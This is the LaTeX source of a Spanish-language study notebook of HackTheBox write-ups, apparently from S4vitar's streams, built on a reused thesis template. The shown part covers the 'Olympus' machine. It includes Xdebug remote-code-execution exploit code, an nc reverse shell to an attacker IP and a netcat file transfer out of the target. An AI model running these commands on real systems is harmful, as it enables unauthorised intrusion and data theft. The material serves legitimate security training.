% This is the Reed College LaTeX thesis template. Most of the work
% for the document class was done by Sam Noble (SN), as well as this
% template. Later comments etc. by Ben Salzberg (BTS). Additional
% restructuring and APA support by Jess Youngberg (JY).
% Your comments and suggestions are more than welcome; please email
% them to cus@reed.edu
%
% See http://web.reed.edu/cis/help/latex.html for help. There are a
% great bunch of help pages there, with notes on
% getting started, bibtex, etc. Go there and read it if you're not
% already familiar with LaTeX.
%
% Any line that starts with a percent symbol is a comment.
% They won't show up in the document, and are useful for notes
% to yourself and explaining commands.
% Commenting also removes a line from the document;
% very handy for troubleshooting problems. -BTS

% As far as I know, this follows the requirements laid out in
% the 2002-2003 Senior Handbook. Ask a librarian to check the
% document before binding. -SN

%%
%% Preamble
%%
% \documentclass{<something>} must begin each LaTeX document
\documentclass{assets/ipesethesis}
% Packages are extensions to the basic LaTeX functions. Whatever you
% want to typeset, there is probably a package out there for it.
% Chemistry (chemtex), screenplays, you name it.
% Check out CTAN to see: http://www.ctan.org/
%
\usepackage{assets/ipesethesis}
\usepackage{assets/EPFLletter50}
%\usepackage{lua_styling}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% SOME COMMANDS
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newcommand\conclimits[1]{\textcolor{black}{\textbf{#1}}}
\hyphenation{Multi-}
\hyphenation{decision-making}
\newcommand{\sqrfinal}{\textcolor{teal}{$\blacksquare$}} % end mark
\newcommand{\setfont}[2]{{\fontfamily{#1}\selectfont #2}}
%\setfont{calligra}{This is Calligra font.}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% ACRONYMS
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newacronym{emat}   {$\Delta T_{min}$}  {heat exchanger minimum approach temperature}
\newacronym{adt}    {adt}   {air-dried tonnes}
\newacronym{chp}    {CHP}   {combined heat and power}
\newacronym{ga}     {GA}    {genetic algorithm}
\newacronym{gbd}    {GBD}   {generalized Benders decomposition}
\newacronym{gcc}    {GCC}   {grand composite curve}
\newacronym{gdp}    {GDP}   {generalized disjuctive programming}
\newacronym{ghg}    {GHG}   {greenhouse gas}
\newacronym{gwp}    {GWP}   {global warming potential}
\newacronym{hen}    {HEN}   {heat exchanger network}
\newacronym{himan}  {HIMAN} {heat-integrated mass allocation network}
\newacronym{hiwan}  {HIWAN} {heat-integrated water allocation network}
\newacronym{hld}    {HLD}   {heat load distribution}
\newacronym{hrat}   {HRAT}  {heat recovery approach temperature}
\newacronym{icc}    {ICC}   {integer-cut constraint}
\newacronym{lp}     {LP}    {linear programming}
\newacronym{men}    {MEN}   {mass exchange network}
\newacronym{mer}    {MER}   {minimum energy requirement}
\newacronym{milp}   {MILP}  {mixed-integer linear programming}
\newacronym{minlp}  {MINLP} {mixed-integer nonlinear programming}
\newacronym{moo}    {MOO}   {multi-objective optimization}
\newacronym{mpec}   {MPEC}  {mathematical programming with equilibrium constraints}
\newacronym{nim}    {NIM}   {non-isothermal mixing}
\newacronym{nlp}    {NLP}   {nonlinear programming}
\newacronym{orc}    {ORC}   {organic Rankine cycle}
\newacronym{sa}     {SA}    {simulated annealing}
\newacronym{sic}    {SIC}   {specific investment cost}
\newacronym{tac}    {TAC}   {total annualized cost}
\newacronym{whr}    {WHR}   {waste heat recovery}

\makeglossaries
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% CHAPTERS' NAME
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newcommand{\thesistitle}           {Methodologies for simultaneous optimization of heat, mass, and power in industrial processes}

\newcommand{\intro}                 {Introduction}

\newcommand{\partone}               {The big trilemma:\\water--energy--waste nexus}
\newcommand{\partonetoc}            {The big trilemma: water--energy--waste nexus}

\newcommand{\partoneone}            {Survey of methodologies in \\ heat-integrated water allocation network}
\newcommand{\partoneonetoc}         {Survey of methodologies in heat-integrated water allocation network}

\newcommand{\partonetwo}            {Targeting methodology \\ with industrial application}
\newcommand{\partonetwotoc}         {Targeting methodology with industrial application}

\newcommand{\partonethree}          {Heat-integrated water allocation \\ network design}
\newcommand{\partonethreetoc}       {Heat-integrated water allocation network design}

\newcommand{\parttwo}               {Medium-temperature \\ heat recovery}
\newcommand{\parttwotoc}            {Medium-temperature heat recovery}

\newcommand{\parttwoone}            {Survey of methodologies in organic \\ Rankine cycle modeling and optimization}
\newcommand{\parttwoonetoc}         {Survey of methodologies in organic Rankine cycle modeling and optimization}

\newcommand{\parttwotwo}            {Optimal integration of organic Rankine \\ cycles in industrial processes}
\newcommand{\parttwotwotoc}         {Optimal integration of organic Rankine cycles in industrial processes}

\newcommand{\partthree}             {Towards the grand design}

\newcommand{\partthreeone}          {Holistic approaches: \\ background and motivation}
\newcommand{\partthreeonetoc}       {Holistic approaches: background and motivation}

\newcommand{\partthreetwo}          {Industrial application: kraft pulp mill}

\newcommand{\conc}                  {Concluding remarks}

\newcommand{\appendixLINEAR}        {Algorithm for outer and inner \\ approximation of thermal streams}
\newcommand{\appendixLINEARtoc}     {Algorithm for outer and inner approximation of thermal streams}

\newcommand{\appendixPARCOORD}      {Interactive parallel coordinate \\ visualization tool for fluid selection}
\newcommand{\appendixPARCOORDtoc}   {Interactive parallel coordinate visualization tool for fluid selection}

\newcommand{\appendixSOLVERSOPTIONS}{Assumptions and solver options for test cases}

\newcommand{\appendixTBDATA}        {Kraft pulp mill data}
  % include acronyms and also name of chapters

\usepackage{graphicx,latexsym}
\usepackage{amsmath}
\usepackage{amssymb,amsthm}
\usepackage{longtable,booktabs,setspace}
\usepackage{chemarr} %% Useful for one reaction arrow, useless if you're not a chem major
\usepackage[hyphens]{url}
% Added by CII
\usepackage{hyperref}
\usepackage{lmodern}
\usepackage{float}
\floatplacement{figure}{H}
% End of CII addition
\usepackage{rotating}

% Next line commented out by CII
%%% \usepackage{natbib}
% Comment out the natbib line above and uncomment the following two lines to use the new
% biblatex-chicago style, for Chicago A. Also make some changes at the end where the
% bibliography is included.
%\usepackage{biblatex-chicago}
%\bibliography{thesis}


% Added by CII (Thanks, Hadley!)
% Use ref for internal links
\renewcommand{\hyperref}[2][???]{\autoref{#1}}
\def\chapterautorefname{Chapter}
\def\sectionautorefname{Section}
\def\subsectionautorefname{Subsection}
% End of CII addition

% Added by CII
\usepackage{caption}
\captionsetup{width=5in}
% End of CII addition

% \usepackage{times} % other fonts are available like times, bookman, charter, palatino

% Syntax highlighting #22
  \usepackage{color}
  \usepackage{fancyvrb}
  \newcommand{\VerbBar}{|}
  \newcommand{\VERB}{\Verb[commandchars=\\\{\}]}
  \DefineVerbatimEnvironment{Highlighting}{Verbatim}{commandchars=\\\{\}}
  % Add ',fontsize=\small' for more characters per line
  \usepackage{framed}
  \definecolor{shadecolor}{RGB}{248,248,248}
  \newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
  \newcommand{\AlertTok}[1]{\textcolor[rgb]{0.94,0.16,0.16}{#1}}
  \newcommand{\AnnotationTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
  \newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.77,0.63,0.00}{#1}}
  \newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
  \newcommand{\BuiltInTok}[1]{#1}
  \newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
  \newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
  \newcommand{\CommentVarTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
  \newcommand{\ConstantTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
  \newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
  \newcommand{\DataTypeTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{#1}}
  \newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
  \newcommand{\DocumentationTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
  \newcommand{\ErrorTok}[1]{\textcolor[rgb]{0.64,0.00,0.00}{\textbf{#1}}}
  \newcommand{\ExtensionTok}[1]{#1}
  \newcommand{\FloatTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
  \newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
  \newcommand{\ImportTok}[1]{#1}
  \newcommand{\InformationTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
  \newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
  \newcommand{\NormalTok}[1]{#1}
  \newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
  \newcommand{\OtherTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{#1}}
  \newcommand{\PreprocessorTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
  \newcommand{\RegionMarkerTok}[1]{#1}
  \newcommand{\SpecialCharTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
  \newcommand{\SpecialStringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
  \newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
  \newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
  \newcommand{\VerbatimStringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
  \newcommand{\WarningTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}

% To pass between YAML and LaTeX the dollar signs are added by CII
\title{2021 - S4viNotes}
\author{Lo0pInG 404}
% The month and year that you submit your FINAL draft TO THE LIBRARY (May or December)
\date{updated on 2021-12-06}
\division{}
\unitname{}{}{}
\advisor{}
\institution{}
\scholardegree{}
%If you have two advisors for some reason, you can use the following
% Uncommented out by CII
% End of CII addition

%%% Remember to use the correct department!
\department{}
% if you're writing a thesis in an interdisciplinary major,
% uncomment the line below and change the text as appropriate.
% check the Senior Handbook if unsure.
%\thedivisionof{The Established Interdisciplinary Committee for}
% if you want the approval page to say "Approved for the Committee",
% uncomment the next line
%\approvedforthe{Committee}

% Added by CII
%%% Copied from knitr
%% maxwidth is the original width if it's less than linewidth
%% otherwise use linewidth (to make sure the graphics do not exceed the margin)
\makeatletter
\def\maxwidth{ %
  \ifdim\Gin@nat@width>\linewidth
    \linewidth
  \else
    \Gin@nat@width
  \fi
}
\makeatother

\renewcommand{\contentsname}{Table of Contents}
% End of CII addition

\setlength{\parskip}{0pt}

% Added by CII

\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}

\Acknowledgements{

}

\Dedication{

}

\Preface{

}

\Abstract{

}

% End of CII addition
%%
%% End Preamble
%%
%

\begin{document}

% Everything below added by CII
  \maketitle

\frontmatter % this stuff will be roman-numbered
\pagenumbering{roman}
%\pagestyle{empty} % this removes page numbers from the frontmatter


  \begin{resume}
    \hypertarget{preface}{%
    \section*{Preface}\label{preface}}
    \addcontentsline{toc}{section}{Preface}
    
    \hypertarget{introducciuxf3n}{%
    \subsection*{Introducción}\label{introducciuxf3n}}
    \addcontentsline{toc}{subsection}{Introducción}
    
    Este es el Notebook de los directos en Twitch del tito S4vitar. Aqui podreis encontrar los passos importantes de cada maquina
    echa. Este book no tiene que estar considerado como una lista de Walktrough, pero mas como unas notas de tecnicas utilizadas
    durante la resolucion de maquinas. Por cierto no estara listado las contraseñas o algunos usuarios, menos si estan utilizados en los
    comandos.
    
    Cada maquina esta separada de la manera siguiente:
    
    \begin{itemize}
    \tightlist
    \item
      Introduccion y link del directo
    \item
      Fase de enumeracion
    \item
      Notas sobre las vulnerabilidades econtradas
    \item
      Explotacion de vulnerabilidades para ganar accesso a la maquina victima
    \item
      Parte de escalacion de privilegios
    \end{itemize}
    
    Espero que este book ayude a la comunidad.
    
    Todas las notas estan disponibles separadas por tipos y categorias en el \href{https://looping404.michellopez.org}{hacking Notebook}.
    
    \hypertarget{agradecimietos}{%
    \subsection*{Agradecimietos}\label{agradecimietos}}
    \addcontentsline{toc}{subsection}{Agradecimietos}
    
    Me gustaria dar las gracias a S4vitar por su contenido de calidad y las ganas que mete a lo que hace para la comunidad.
    Son estas ganas que me motivaron en querer aprender mas y mas. Y como la mejor manera que tengo de aprender es tomando notas,
    este book no existiria sin el.
  \end{resume}




% Muz \phantomsection \printglossary[type=\acronymtype,title = List of Acronyms,nonumberlist] \addcontentsline{toc}{chapter}{List of acronyms} \cleardoublepage


  \hypersetup{linkcolor=black}
  \setcounter{tocdepth}{1}
  \tableofcontents


\mainmatter % here the regular arabic numbering starts
\pagestyle{fancyplain} % turns page numbering back on

\hypertarget{preface-1}{%
\chapter*{Preface}\label{preface-1}}
\addcontentsline{toc}{chapter}{Preface}

\hypertarget{introducciuxf3n-1}{%
\section*{Introducción}\label{introducciuxf3n-1}}
\addcontentsline{toc}{section}{Introducción}

Este es el Notebook de los directos en Twitch del tito S4vitar. Aqui podreis encontrar los passos importantes de cada maquina
echa. Este book no tiene que estar considerado como una lista de Walktrough, pero mas como unas notas de tecnicas utilizadas
durante la resolucion de maquinas. Por cierto no estara listado las contraseñas o algunos usuarios, menos si estan utilizados en los
comandos.

Cada maquina esta separada de la manera siguiente:

\begin{itemize}
\tightlist
\item
  Introduccion y link del directo
\item
  Fase de enumeracion
\item
  Notas sobre las vulnerabilidades econtradas
\item
  Explotacion de vulnerabilidades para ganar accesso a la maquina victima
\item
  Parte de escalacion de privilegios
\end{itemize}

Espero que este book ayude a la comunidad.

Todas las notas estan disponibles separadas por tipos y categorias en el \href{https://looping404.michellopez.org}{hacking Notebook}.

\hypertarget{agradecimietos-1}{%
\section*{Agradecimietos}\label{agradecimietos-1}}
\addcontentsline{toc}{section}{Agradecimietos}

Me gustaria dar las gracias a S4vitar por su contenido de calidad y las ganas que mete a lo que hace para la comunidad.
Son estas ganas que me motivaron en querer aprender mas y mas. Y como la mejor manera que tengo de aprender es tomando notas,
este book no existiria sin el.

\hypertarget{olympus}{%
\chapter*{Olympus}\label{olympus}}
\addcontentsline{toc}{chapter}{Olympus}

\hypertarget{introduccion}{%
\section*{Introduccion}\label{introduccion}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 22/07/2021 se llama Olympus.

El replay del live se puede ver en \href{https://www.twitch.tv/videos/1094808182}{Twitch: S4vitaar Olympus maquina}

\hypertarget{enumeracion}{%
\section*{Enumeracion}\label{enumeracion}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping}{%
\subsubsection*{Ping}\label{ping}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.83}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina linux
Recuerda que en cuanto a ttl 64 es igual a linux y 128 es igual a windows
pero como estamos en hackthebox hay un nodo intermediario que hace que disminuya el ttl en una unidad

\hypertarget{nmap}{%
\subsubsection*{Nmap}\label{nmap}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.83}
\end{Highlighting}
\end{Shaded}

Si consideras que va muy lento, puedes utilizar los siguientes parametros para que valla mucho mas rapido

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.10.83 -oG allPorts}
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p53,80,2222 10.10.10.83 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
53 & domain & Domain zone transfer & Un nombre de dominio\tabularnewline
80 & http & whatweb, http-enum & Checkear la web\tabularnewline
2222 & ssh & conexion a la maquina & Usuario contraseña\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{empezamos-por-el-puerto-80}{%
\subsection*{Empezamos por el puerto 80}\label{empezamos-por-el-puerto-80}}
\addcontentsline{toc}{subsection}{Empezamos por el puerto 80}

\hypertarget{whatweb}{%
\subsubsection*{Whatweb}\label{whatweb}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.83}
\end{Highlighting}
\end{Shaded}

Nada interesante

\hypertarget{browsear-la-web}{%
\subsubsection*{Browsear la web}\label{browsear-la-web}}
\addcontentsline{toc}{subsubsection}{Browsear la web}

Hay una imagen, se nos occure steganografia pero no hay nada.

El Wappalyzer no dice que el servidor web empleado es un Apache.

\hypertarget{wfuzz}{%
\subsubsection*{WFuzz}\label{wfuzz}}
\addcontentsline{toc}{subsubsection}{WFuzz}

Como no hay mucho mas que ver, aplicaremos \textbf{fuzzing} para descubrir si hay mas rutas.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.83/FUZZ}
\end{Highlighting}
\end{Shaded}

No hay nada, creamos un fichero de extensiones txt, php, html y fuzzeamos otravez.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extensions http://10.10.10.83/FUZZ.FUZ2Z}
\end{Highlighting}
\end{Shaded}

No hay nada.

\hypertarget{dig}{%
\subsubsection*{Dig}\label{dig}}
\addcontentsline{toc}{subsubsection}{Dig}

\textbf{Dig} a no confundir con dick ;) es una utilidad que nos permite recojer informaciones a nivel de dns.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Añadir la ip y el hostname en el /etc/hosts

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{10.10.10.83}\NormalTok{ olympus.htb}
\end{Highlighting}
\end{Shaded}
\item
  Lanzar \textbf{Dig} para recojer informaciones

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.83 olympus.htb}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

No hay respuesta valida lo que quiere decir que el dominio no es valido

\hypertarget{checkear-las-cabezeras-de-las-respuestas-a-lado-del-servidor}{%
\subsubsection*{Checkear las cabezeras de las respuestas a lado del servidor}\label{checkear-las-cabezeras-de-las-respuestas-a-lado-del-servidor}}
\addcontentsline{toc}{subsubsection}{Checkear las cabezeras de las respuestas a lado del servidor}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -X GET -s }\StringTok{"http://10.10.10.83/"}\NormalTok{ -I}
\end{Highlighting}
\end{Shaded}

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/curl-xdebug} \caption{curl xdebug}\label{fig:unnamed-chunk-2}
\end{figure}

Algo interessante en la respuesta es el Xdebug 2.5.5. Xdebug es una extension de PHP para hacer debug con haremientas
depuracion tradicionales, desde el editor, tal como se hace en lenguajes de programacion clasicos. Mas informaciones sobre
Xdebug en \href{https://desarrolloweb.com/articulos/que-es-instalar-configurar-xdebug.html}{desarolloweb.com}

\hypertarget{evaluacion-de-vulnerabilidades}{%
\section*{Evaluacion de Vulnerabilidades}\label{evaluacion-de-vulnerabilidades}}
\addcontentsline{toc}{section}{Evaluacion de Vulnerabilidades}

\hypertarget{searchsploit}{%
\subsection*{searchsploit}\label{searchsploit}}
\addcontentsline{toc}{subsection}{searchsploit}

Checkeamos si existe un exploit relacionado con \textbf{Xdebug 2.5.5}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ xdebug}
\end{Highlighting}
\end{Shaded}

Hay un script en Ruby (Metasploit) que permitiria hacer execucion de commandos. Analizamos el exploit con el commando

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ -x xdebug}
\end{Highlighting}
\end{Shaded}

Que hace el exploit?

\begin{itemize}
\tightlist
\item
  esta tirando de index.php
\item
  se pone en escucha en el equipo de atacante en el puerto 9000
\item
  usa el comando eval
\item
  deposita en una ruta del servidor un fichero con su contenido en base64
\item
  ejecuta el fichero con php
\item
  la peticion esta enviada por el methodo GET con \texttt{\textquotesingle{}Cookie\textquotesingle{}\ =\textgreater{}\ \textquotesingle{}XDEBUG\_SESSION=+rand\_text\_alphanumeric(10)\textquotesingle{}}
\end{itemize}

\hypertarget{pruebas-del-exploit}{%
\subsection*{Pruebas del exploit}\label{pruebas-del-exploit}}
\addcontentsline{toc}{subsection}{Pruebas del exploit}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha en el puerto 9000

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 9000}
\end{Highlighting}
\end{Shaded}
\item
  Enviamos un peticion GET con el XDEBUG\_SESSION en cookie

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.83/index.php"}\NormalTok{ -H }\StringTok{"Cookie: XDEBUG_SESSION=EEEEE"}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Recibimos datos del lado del servidor.

\hypertarget{explotacion-de-la-vulnerabilidad}{%
\subsection*{Explotacion de la vulnerabilidad}\label{explotacion-de-la-vulnerabilidad}}
\addcontentsline{toc}{subsection}{Explotacion de la vulnerabilidad}

Buscamos un exploit en github y encontramos un script cortito que vamos a modificar y llamar exploit\_shell.py

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ socket}
\ImportTok{import}\NormalTok{ pdb}

\ImportTok{from}\NormalTok{ base64 }\ImportTok{import}\NormalTok{ b64encode}

\NormalTok{ip_port }\OperatorTok{=}\NormalTok{ (}\StringTok{'0.0.0.0'}\NormalTok{, }\DecValTok{9000}\NormalTok{)}
\NormalTok{sk }\OperatorTok{=}\NormalTok{ socket.socket()}
\NormalTok{sk.bind(ip_port)}
\NormalTok{sk.listen(}\DecValTok{10}\NormalTok{)}
\NormalTok{conn, addr }\OperatorTok{=}\NormalTok{ sk.accept()}

\ControlFlowTok{while} \VariableTok{True}\NormalTok{:}
\NormalTok{    client_data }\OperatorTok{=}\NormalTok{ conn.recv(}\DecValTok{1024}\NormalTok{)}
    \BuiltInTok{print}\NormalTok{(client_data)}

\NormalTok{    data }\OperatorTok{=} \BuiltInTok{input}\NormalTok{(}\StringTok{'>> '}\NormalTok{)}
\NormalTok{    data }\OperatorTok{=}\NormalTok{ data.encode(}\StringTok{'utf-8'}\NormalTok{)}
\NormalTok{    conn.sendall(b}\StringTok{'eval -i -- '} \OperatorTok{+}\NormalTok{ b64encode(data) }\OperatorTok{+}\NormalTok{ b}\StringTok{'}\CharTok{\textbackslash{}x00}\StringTok{'}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Lanzamos el exploit

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ exploit_shell.py}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos una peticion GET

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.83/index.php"}\NormalTok{ -H }\StringTok{"Cookie: XDEBUG_SESSION=EEEEE"}
\end{Highlighting}
\end{Shaded}
\item
  En la mini shell abierta del exploit\_shell.py lanzamos un \textbf{whoami}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{system}\OtherTok{(}\StringTok{'whoami'}\OtherTok{)}    
\end{Highlighting}
\end{Shaded}
\item
  En la respuesta del \textbf{curl} se nos pone \emph{www-data}
\end{enumerate}

El exploit funciona y el comando \textbf{ifconfig} nos da una ip que no es la 10.10.10.83. Quiere decir que estamos
en un contenedor.

\hypertarget{explotacion-de-vulnerabilidad-ganando-acceso}{%
\section*{Explotacion de vulnerabilidad \& Ganando acceso}\label{explotacion-de-vulnerabilidad-ganando-acceso}}
\addcontentsline{toc}{section}{Explotacion de vulnerabilidad \& Ganando acceso}

\hypertarget{ganando-acceso-con-la-vuln-xdebug}{%
\subsection*{Ganando acceso con la vuln XDebug}\label{ganando-acceso-con-la-vuln-xdebug}}
\addcontentsline{toc}{subsection}{Ganando acceso con la vuln XDebug}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha con netcat

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Con el exploit exploit\_shell.py lanzamos una reverse shell

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{system}\OtherTok{(}\StringTok{'nc -e /bin/bash 10.10.14.20 443'}\OtherTok{)}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

De esta manera, hemos ganado acceso al equipo.

\hypertarget{tratamiento-de-la-tty}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{numero de filas}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{numero de columnas}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{investigamos-la-maquina}{%
\subsection*{Investigamos la maquina}\label{investigamos-la-maquina}}
\addcontentsline{toc}{subsection}{Investigamos la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /home}
\CommentTok{#Output}
\ExtensionTok{zeus}

\FunctionTok{ls}\NormalTok{ /home/zeus}
\CommentTok{#Output}
\ExtensionTok{airgeddon}
\end{Highlighting}
\end{Shaded}

\hypertarget{airgeddon.cap-crack-with-aircrack-ng}{%
\subsection*{Airgeddon.cap crack with Aircrack-ng}\label{airgeddon.cap-crack-with-aircrack-ng}}
\addcontentsline{toc}{subsection}{Airgeddon.cap crack with Aircrack-ng}

Airgeddon es una suite de utilidades para hacer auditorias wifi. Entrando en el repertorio airgeddon del usuario zeus encontramos
otro repertorio llamado captured. Filtrando el contenido del directorio aigedon por ficheros \texttt{find\ \textbackslash{}-type\ f} encontramos un fichero
\textbf{captured.cap}

Vamos a transferir el fichero captured.cap a nuestro equipo de atacante

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{>}\NormalTok{ captured.cap}
\end{Highlighting}
\end{Shaded}
\item
  En el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.14.28 443 }\OperatorTok{<}\NormalTok{ captured.cap}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Sabiendo que Airgeddon es una utilidad de auditoria wifi intentamos ver lo que contiene el \textbf{captured.cap} con la utilidad \textbf{aircrack-ng}.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{aircrack-ng}\NormalTok{ captured-cap}
\end{Highlighting}
\end{Shaded}

\begin{figure}
